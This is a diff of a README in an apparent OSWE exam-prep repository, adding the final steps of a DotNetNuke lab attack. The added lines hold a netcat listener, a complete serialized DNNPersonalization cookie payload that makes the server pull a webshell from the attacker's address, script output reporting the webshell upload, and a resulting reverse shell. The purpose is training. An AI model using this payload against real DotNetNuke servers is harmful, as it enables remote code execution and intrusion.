

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/DotNetNuke/README.md, the part around the change. Shown at 97% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/DotNetNuke/README.md
+++ b/OSWE-Labs/DotNetNuke/README.md
@@ -285,4 +285,38 @@ At this stage, we can set up the full attack and attempt to gain a reverse shell
 └─$ python3 -m http.server 80
 Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
 
+
 ```
+Starting our NetCat listener on the spicefied port:
+```bash
+
+┌──(kali㉿kali)-[~]
+└─$ nc -nlvp 1337
+listening on [any] 1337 ...
+
+
+```
+And run this script: https://github.com/solimanalmansor/OSWE-Prep/blob/main/OSWE-Labs/DotNetNuke/rce_script.py , containing the malicious serialized object.
+
+```bash
+┌──(kali㉿kali)-[~]
+└─$ python3 test.py 192.168.45.208 1337
+[*] {'DNNPersonalization': '<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.208/cmdasp.aspx</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/cmdasp.aspx</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>'}
+[*] Uploading the webshell to the traget machine...
+[+] Webshell uploaded succssfully
+[+] Access your webshell http://dnn/dotnetnuke/cmdasp.aspx
+[*] Triggering reverse shell. Check your listener
+
+
+```
+
+We will receive a reverse connection
+```bash
+┌──(kali㉿kali)-[~]
+└─$ nc -nlvp 1337
+listening on [any] 1337 ...
+connect to [192.168.45.208] from (UNKNOWN) [192.168.156.120] 49174
+whoami
+iis apppool\defaultapppool
+PS C:\windows\system32\inetsrv>
+```
````
